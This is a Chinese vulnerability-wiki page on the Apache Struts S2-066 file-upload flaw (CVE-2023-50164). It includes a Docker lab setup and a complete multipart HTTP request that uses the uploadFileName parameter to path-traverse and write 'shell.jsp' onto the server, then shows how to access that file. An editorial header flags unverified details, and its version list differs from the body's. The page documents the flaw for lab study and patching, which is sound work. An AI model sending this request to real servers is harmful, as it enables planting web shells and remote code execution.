




## 2026-10-03 版本核验

CNA 列明的范围为 Struts 2.0.0–2.5.32、6.0.0–6.3.0.1，修复版本为 2.5.33、6.3.0.2。原文 6.x 仅列到 6.3.0，版本索引已补上 6.3.0.1；上传后能否代码执行仍取决于应用条件。

# Apache Struts S2-066 远程代码执行漏洞 CVE-2023-50164

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响分支及文件上传参数绑定，能写到Web可执行目录且JSP启用；实验6.3.0自定义upload.action
- 证据范围：Upload与uploadFileName大小写/覆盖过程及JSP标记合理，但触发条件由应用上传实现决定。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 没有具体修复版本，官方指南链接实际下载首页
- HashMap调用顺序一句不足解释参数覆盖，缺Action/interceptor源码关键条件
- JSP静态标记可支持服务器端解析但不是任意OS命令已执行
- 替换镜像构建源只是辅助环境，不属漏洞条件；文件落地/覆盖的副作用需说明

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。
- 验证须使用自有隔离环境的凭据；已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级 Web 应用程序。

该漏洞存在于 Apache Struts 中，是一个代码执行漏洞。攻击者可以操纵文件上传参数来执行路径遍历，进而上传可用于执行远程代码执行的恶意文件。

参考链接：

- [Apache Struts2 文件上传分析(S2-066)](https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/ )
- https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker

## 漏洞影响

```
Struts 2.0.0-2.3.37
Strust 2.5.0-2.5.32
Strust 6.0.0-6.3.0
```

## 环境搭建

通过项目 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker) 搭建一个 Struts 6.3.0 漏洞环境：

```shell
git clone https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker.git
cd CVE-2023-50164-ApacheStruts2-Docker
docker build --ulimit nofile=122880:122880 -m 3G -t cve-2023-50164 .
docker run -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2023-50164 cve-2023-50164
```

可更新 maven 源加速构建，在 Dockerfile 同级目录创建一个自定义的 settings.xml：

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0
                     http://maven.apache.org/xsd/settings-1.0.0.xsd">
  <mirrors>
    <mirror>
        <id>aliyun-maven</id>
        <mirrorOf>central</mirrorOf>
        <name>Aliyun Maven</name>
        <url>https://maven.aliyun.com/repository/central</url>
    </mirror>
  </mirrors>
</settings>
```

在 Dockerfile 中新增一行，将自定义的 `settings.xml` 复制到 Maven 的配置目录中，替换默认文件：

```
COPY settings.xml /root/.m2/settings.xml
```

重新执行 `docker build` 与 `docker run` 即可。

通过 `curl` 验证服务是否启动：

```shell
curl http://your-ip:8080/upload.action
```

或访问 `http://your-ip:8080/upload.action` 查看上传页面。




## 漏洞复现

在该环境中做了文件后缀限制，只能上传图片，不允许直接上传 `.jsp` 文件：




根据 HashMap 中存储的调用顺序构造 payload：

```http
POST /upload.action HTTP/1.1
Host: your-ip:8080
Content-Length: 319
Cache-Control: max-age=0
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfZRVTHWYyGlXGAeY
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/upload.action
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Cookie: JSESSIONID=ED2FB48CE518AF954B3EA4F97AC1FF17
Connection: keep-alive

------WebKitFormBoundaryfZRVTHWYyGlXGAeY
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

<%= "awesome_poc" %>

------WebKitFormBoundaryfZRVTHWYyGlXGAeY
Content-Disposition: form-data; name="uploadFileName"; 

../shell.jsp
------WebKitFormBoundaryfZRVTHWYyGlXGAeY--
```




访问上传文件：

```
http://your-ip:8080/shell.jsp
```




## 漏洞修复

根据 `漏洞影响` 中的信息，排查并升级到 `安全版本`，或直接访问参考链接获取官方更新指南，[https://struts.apache.org/download.cgi](https://struts.apache.org/download.cgi)。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
